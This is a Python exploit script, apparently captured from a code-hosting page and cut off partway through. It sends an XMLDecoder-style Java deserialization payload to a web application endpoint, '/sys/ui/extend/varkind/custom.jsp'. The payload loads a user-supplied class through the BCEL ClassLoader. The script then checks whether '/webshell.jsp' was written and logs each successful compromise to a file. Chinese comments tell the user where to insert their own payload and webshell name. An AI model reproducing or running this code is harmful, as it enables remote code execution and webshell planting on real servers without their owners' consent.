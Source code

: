 ```

```python
# -*- coding: utf-8 -*

import requests
import getopt
import datetime
import sys
import threading
import os
import urllib3
import time
from colorama import init, Fore
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
init(autoreset=False)

lock = threading.Lock()
global result_file_path
global proxies_judge
loop_name = ''

def exploit(url):
    head = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36'
    ,"Content-Type": "application/x-www-form-urlencoded"}
    payload = "/sys/ui/extend/varkind/custom.jsp"

    data = 'var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void class="com.sun.org.apache.bcel.internal.util.ClassLoader"><void method="loadClass"><string>【Your Payload】</string><void method="newInstance"></void></void></void></java>' # 【Your Payload 处填写你的payload】


    exp = url + payload
    try:
        re = requests.post(exp,data=data,headers=head,verify=False,timeout=5)

        verify_url = url + "/webshell.jsp" # 这里填写你webshell的名字

        time.sleep(1)
        re = requests.get(verify_url,headers=head,timeout=5) ## 这里做验证，特征改成你自己的
        if re.status_code == 200 and 'webshell' in re.text:
            msg = "Webshell已经成功写入！"+ verify_url
            judge = 1
            output_to_file(msg)
        else:
            msg = 'Webshell写入失败！'+ verify_url
            judge = 2
    except:
        msg = 'error! 目标路径无法访问'
        judge = 3
    output(msg,judge)

def output_to_file(msg):
    '''
        输出到文件
    '''
    global result_file_path
    f = open(result_file_path,'a')
    f.write(msg+'\n')
    f.close()

def output(msg,judge=0):
```